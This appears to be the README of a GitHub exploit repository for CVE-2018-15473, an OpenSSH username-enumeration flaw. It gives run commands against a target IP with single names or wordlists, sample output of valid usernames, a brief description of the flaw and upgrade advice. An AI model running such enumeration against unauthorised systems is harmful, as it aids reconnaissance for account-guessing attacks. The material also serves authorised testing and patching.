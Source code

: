 ## CVE-2018-15473 
**SSH-Username-Enumeration-Exploit (OpenSSH 2.3 < 7.7)**

Edited version of the original exploit: https://www.exploit-db.com/exploits/45233

* Converted to Python3
* Added username wordlist option

## How To Run

```bash
#Ensure that you install the requirements:
foo@bar:~$ pip3 install -r requirements.txt
```

```bash
#For single username:
foo@bar:~$ ./CVE-2018-15473.py 192.168.1.20 -u root
[+] root is a valid username
```

```bash      
#For multiple username:
foo@bar:~$ ./CVE-2018-15473.py 192.168.1.20 -w username_wordlist.txt
[+] root is a valid username
[-] mysql is an invalid username
[-] mike is an invalid username
[-] foo is an invalid username
[-] bar is an invalid username
Valid Users: 
root
```

```bash      
#For more option:
foo@bar:~$ ./CVE-2018-15473.py -h
```

## About the Vulnerability:

The system responds differently to valid and invalid authentication attempts. A remote user can send specially crafted requests to determine valid usernames on the target system. Thus, a remote user can determine valid usernames on the target system.

## Solution:

OpenSSH server should be upgraded to, or higher than, version 7.7

